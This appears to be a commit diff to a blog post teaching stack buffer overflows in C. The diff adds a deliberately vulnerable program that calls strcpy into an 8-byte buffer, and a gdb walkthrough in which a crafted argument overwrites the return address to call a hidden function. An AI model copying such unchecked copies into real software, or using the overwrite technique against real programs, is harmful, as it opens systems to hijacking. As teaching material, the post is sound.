

Before and after one commit to axiomiety/axiomiety.github.io, a Jekyll site: the page built from _posts/2016-12-11-sec_bufferoverflow.md, in a window 1280 px wide. Shown: the whole page at 31% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
buffer overflow

```diff
--- a/_posts/2016-12-11-sec_bufferoverflow.md
+++ b/_posts/2016-12-11-sec_bufferoverflow.md
@@ -138,12 +138,34 @@ Let's modify `foo.c` a little to accept user input.
 In this example we're accepting a user-defined string which we will copy into `buffer`. Let's see what this looks like in `gdb`:
 
 ~~~ c
+#include <stdio.h>
+#include <string.h>
+
+int
+myfunc(char* user_input)
+{
+        unsigned int res = 0xDDDDDDDD;
+        char buffer[8];
+        strcpy(buffer, user_input);
+        return res;
+}
+
+int
+main(int argc, char* argv[])
+{
+        unsigned int result = 0xEEEEEEEE;
+        char* user_input = argv[1]; // argv[0] is the program name
+        result = myfunc(user_input);
+        printf("Result: %d\n", result);
+        return 0;
+}
+
 ~~~
 
 
-We're using `U` as user input because `ord('U') = 0x55`, which makes it easy to see (a char is 1 byte so a word will be `0x55555555`).
+We'll be using `U` as user input because `ord('U') = 0x55`, which makes it easy to see (a char is 1 byte so a word will be `0x55555555`).
 
-8 bytes we allocated for `buffer` - but see what happens when you pass in 8 bytes - first *before* `strcpy` and then after.
+8 bytes were allocated for `buffer` - but see what happens when you pass in 8 bytes - first *before* `strcpy` and then after.
 
 ~~~ shell
 vagrant@vagrant:/tmp$ gdb -q ./a.out
@@ -194,6 +216,90 @@ Now let's continue to the next breakpoint, *after* `strcpy`:
 
 We clearly see `0x55555555 0x55555555` representing `UUUUUUUU` but somehow `myres` is no longer what it was.
 
-This is because strings in C are terminated by a null byte (`0x00`) and `strcpy` will keep copying until it finds one. Our buffer is only 8 bytes wide so when we pass in 8 U's, it's actually `0x55555555 0x55555555 0x00` (because we're using little endian, we see this displayed on the right). So by overflowing the buffer, we ended up overwriting a local variable - and if we can overwrite that, could we keep going and overwrite the return address?
+This is because strings in C are terminated by a null byte (`0x00`) and `strcpy` will keep copying until it finds one in the input. Our buffer is only 8 bytes wide so when we pass in 8 U's, it's actually `0x55555555 0x55555555 0x00` (because we're using little endian, we see this displayed on the right). So by overflowing the buffer, we ended up overwriting a local variable - and if we can overwrite that, could we keep going and overwrite the return address?
 
 ## Overwriting the return address
+
+In our previous example the return address was `0x0804848d`. Let's add a function that's not called anywhere:
+
+~~~ c
+void
+hiddenfunc(void)
+{
+  printf("This is unreachable!\n");
+}
+~~~
+
+We can find where that function will be in memory using `objdump`:
+
+~~~ shell
+vagrant@vagrant:/tmp$ objdump -d -M intel -S a.out | grep hiddenfunc
+0804846b <hiddenfunc>:
+hiddenfunc(void)
+~~~
+
+Let's see if we can override `main`'s return address to this one instead. Note it is passed reversed, again due to this being little endian.
+
+~~~ shell
+vagrant@vagrant:/tmp$ gdb -q --args ./a.out $(perl -e 'print "U"x24 . "\x6b\x84\x04\x08"')
+Reading symbols from ./a.out...done.
+(gdb) list
+8       }
+9
+10      int
+11      myfunc(char* user_input)
+12      {
+13        unsigned int res = 0xDDDDDDDD;
+14        char buffer[8];
+15        strcpy(buffer, user_input);
+16        return res;
+17      }
+(gdb) break 15
+Breakpoint 1 at 0x8048491: file foo.c, line 15.
+(gdb) break 16
+Breakpoint 2 at 0x80484a3: file foo.c, line 16.
+(gdb) r
+Starting program: /tmp/a.out UUUUUUUUUUUUUUUUUUUUUUUUk▒
+
+Breakpoint 1, myfunc (user_input=0xffffdd72 'U' <repeats 24 times>, "k\204\004\b") at foo.c:15
+15        strcpy(buffer, user_input);
+(gdb) x/16wx $esp
+0xffffdb40:     0xffffffff      0x0000002f      0xf7e1edc8      0xdddddddd
+0xffffdb50:     0x00008000      0xf7fc2000      0xffffdb88      0x080484d6
+0xffffdb60:     0xffffdd72      0x00000000      0xf7e40830      0x0804854b
+0xffffdb70:     0x00000002      0xffffdc34      0xffffdd72      0xeeeeeeee
+(gdb) c
+Continuing.
+~~~
+
+The memory address we want to override is:
+
+~~~ shell
+(gdb) x/wx 0xffffdb5c
+0xffffdb5c:     0x080484d6
+~~~
+
+Once `strcpy` has been executed, we can indeed see this has been replaced with `0x0804846b`:
+
+~~~ shell
+
+Breakpoint 2, myfunc (user_input=0xffffdd00 "\f") at foo.c:16
+16        return res;
+(gdb) x/16wx $esp
+0xffffdb40:     0xffffffff      0x55555555      0x55555555      0x55555555
+0xffffdb50:     0x55555555      0x55555555      0x55555555      0x0804846b
+0xffffdb60:     0xffffdd00      0x00000000      0xf7e40830      0x0804854b
+0xffffdb70:     0x00000002      0xffffdc34      0xffffdd72      0xeeeeeeee
+(gdb) c
+Continuing.
+This is unreachable!
+
+Program received signal SIGSEGV, Segmentation fault.
+0xffffdd00 in ?? ()
+~~~
+
+And sure enough the unreachable function is called.
+
+## Executing user-defined code
+
+That was fun but it's a little limiting - ideally we'd like to execute arbitrary code. That is, point to an area of memory which contains something of ours.
```
